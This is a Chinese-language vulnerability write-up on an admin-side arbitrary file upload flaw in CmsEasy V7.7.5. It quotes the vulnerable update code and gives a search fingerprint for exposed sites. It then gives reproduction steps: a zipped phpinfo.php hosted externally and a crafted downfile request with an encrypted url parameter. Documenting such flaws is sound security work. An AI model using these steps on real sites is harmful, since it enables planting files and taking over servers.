



# CmsEasy update_admin.php 后台任意文件上传漏洞

## 漏洞描述

CmsEasy 后台存在任意文件上传漏洞，通过文件 service.php 加密Url参数执行即可上传任意文件

## 影响版本

<a-checkbox checked>CmsEasy V7.7.5_20210919</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="cmseasyedit" </a-checkbox></br>

## 环境搭建

<a-alert type="success" message="https://www.cmseasy.cn/chm/faq/show-645.html" description="" showIcon>
</a-alert>
<br/>


## 漏洞复现

主页面


存在漏洞的文件为 `lib/admin/update_admin.php`


其中需要注意的代码为

```php
function downfile_action()
    {
        $url = front::get('url');
        $url=service::getInstance()->unlockString($url,"cmseasy_url");
        $res = $this->get_file($url, 'cache');
        if (!$res) {
            $res = array(
                'err' => 1,
                'data' => lang_admin('update_package_download_failed'),
            );
        } else {
            @unlink('upgrade/config_cn.php');
            @unlink('upgrade/config_cn.tmp.php');
            @unlink('upgrade/upgrade.sql');
            @unlink('upgrade/command.php');
            front::remove(ROOT.'/cache/data');
            front::remove(ROOT.'/cache/template');//清空全部语言
            $langdata=getlang();
            if($langdata != ""){
                foreach ($langdata as $key=>$val){
                    front::remove(ROOT.'/cache/'.$val['langurlname']);
                    front::remove(ROOT.'/'.$val['langurlname'].'/template');
                }
            }
            //先清空缓存
            user::deletesession();
            category::deletesession();
            //提取分类
            if(file_exists(ROOT."/lib/table/type.php")) {
                type::deletesession();
            }
            //提取专题
            if(file_exists(ROOT."/lib/table/special.php")) {
                special::deletesession();
            }
            $archive = new PclZip('cache/patch.zip');
            $archive->extract(PCLZIP_OPT_PATH, ROOT, PCLZIP_OPT_REPLACE_NEWER);

            if(file_exists('upgrade/upgrade.sql')) {
                $sqlquery = file_get_contents('upgrade/upgrade.sql');
                $sqlquery = str_replace('`cmseasy_', '`' . config::getdatabase('database', 'prefix'), $sqlquery);

                $sqlquery = str_replace("\r", "", $sqlquery);
                $sqls = preg_split("/;(--)*[ \t]{0,}\n/", $sqlquery);
                $this->exec_cms_sql($sqls);
            }

            if(file_exists('upgrade/command.php')){
                include ROOT . '/upgrade/command.php';
            }
            $res = array(
                'err' => 0,
                'message' => $this->message,
                'data' => lang_admin('upgrade_successful'),
            );
        }

        echo json_encode($res);
        exit;
    }
```

其中使用 unlockString 和 get_file 方法

```php
$url = front::get('url');
$url=service::getInstance()->unlockString($url,"cmseasy_url");
$res = $this->get_file($url, 'cache');
```



写入后在上层目录写入文件，即Web根目录，创建压缩包并上传可访问的服务器上

```php
zip phpinfo.zip phpinfo.php
```

构造下载请求



```php
/index.php?case=update&act=downfile&admin_dir=admin&site=default&url=buTdBnP8%3DJ%3DELYuF8Z2IwZyM-awr9fH%3D0cax6mxICukxw
```


